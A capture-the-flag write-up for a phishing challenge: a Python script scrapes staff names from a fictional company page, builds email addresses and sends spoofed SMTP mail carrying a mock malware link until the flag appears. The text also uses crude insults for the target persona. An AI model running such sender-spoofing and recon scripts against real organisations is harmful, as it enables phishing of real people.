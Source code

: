 ## Red Phish Blue Phish

This challenge switches things up by creating an interactive server and website. We are given some information in the description.

"You are to conduct a phishing exercise against our client, **Pyrch Data**.
We've identified the Marketing Director, **Sarah Williams** (swilliams@pyrchdata.com), as a user susceptible to phishing."

Sounds like this user will just click anything. Probably a bot "clicking" whatever you send it given the nature of the challenge. We are also given a smtp server address to play with after starting it up.
`nc challenge.ctf.games PORT`

So we have some good info. 
1) Emails are first_initial_lastname@pyrchdata.com
2) Pyrchdata might have a website since this server is online.
3) We are supposed to send this **idiot** a phishing email

With that in mind lets try to get some more info on the situation over at PyrchData.com

Visiting with a browser, we quickly find https://pyrchdata.com/team, useful for enumerating users as we already have a good idea of email address formatting. Sure enough lots of dorks in there.

So. Lets use this page and scrape it for use in multiple attempts to phish from one of these dweebs. Inspecting the webpage, we see that user names are all in h3 tags, but also the profile pictures. Can parse from either but lets scrape it and then send emails over the smtp address accordingly (knockknock, whoisit, whositfor, pwnchline). Just kidding its HELO -> MAIL FROM -> RCPT TO -> DATA (which is how you initiate and send your message).

Using the scraped emails (excluding Sarah) we communicate with the server like so, which stops after receiving 'flag{' in the response. Using python we can utilize `beautifulsoup` and `requests` for webscraping.

```python
import socket
import requests
from bs4 import BeautifulSoup

server = "challenge.ctf.games"
port = PORT  # CHANGE TO WHAT YOURS SAYS
dumb_bitch = "swilliams@pyrchdata.com"

message = """
Subject: Stupid Test

Hey Sarah,

Did you just blow in from stupid town?
http://literallymalware.gov

You silly goose,
Elon M
"""

def get_names():
    url = "https://pyrchdata.com/team"
    response = requests.get(url)
    if response.status_code == 200:
        return [tag.get_text().strip() for tag in BeautifulSoup(response.content, "html.parser").find_all("h3")]
    return []

def generate_email(name):
    names = name.split()
    return f"{names[0][0].lower()}{names[1].lower()}@pyrchdata.com" if len(names) >= 2 else None

def phish(sender, recipient, message):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        try:
            sock.connect((server, port))
            for cmd in [f"HELO pyrchdata.com", f"MAIL FROM:<{sender}>", f"RCPT TO:<{recipient}>", "DATA", f"{message}\r\n."]:
                sock.sendall(f"{cmd}\r\n".encode())
                response = sock.recv(4096).decode()
                print(f"Server Response: {response}")
                if "flag{" in response:
                    return True
            sock.sendall(b"QUIT\r\n")
        except Exception as e:
            print(f"Error: {e}")
    return False

names = get_names()
for name in names:
    sender = generate_email(name)
    if sender and sender != dumb_bitch:
        print(f"Trying email: {sender}")
        if phish(sender, dumb_bitch, message):
            break
```

This will print out the attempts until finding anything returning "flag{", which eventually gets to user jdaveren@pyrchdata.com.
```sh
Trying email: jdaveren@pyrchdata.com
Server Response: 220 red-phish-blue-phish-82d4f92483bf2c4d-5cdd5cd956-vs7vp Python SMTP 1.4.6
250 red-phish-blue-phish-82d4f92483bf2c4d-5cdd5cd956-vs7vp

Server Response: 250 OK

Server Response: 250 OK

Server Response: 354 End data with <CR><LF>.<CR><LF>

Server Response: 250 OK. flag{54c6ec05ca19565754351b7fcf9c03b2}
```

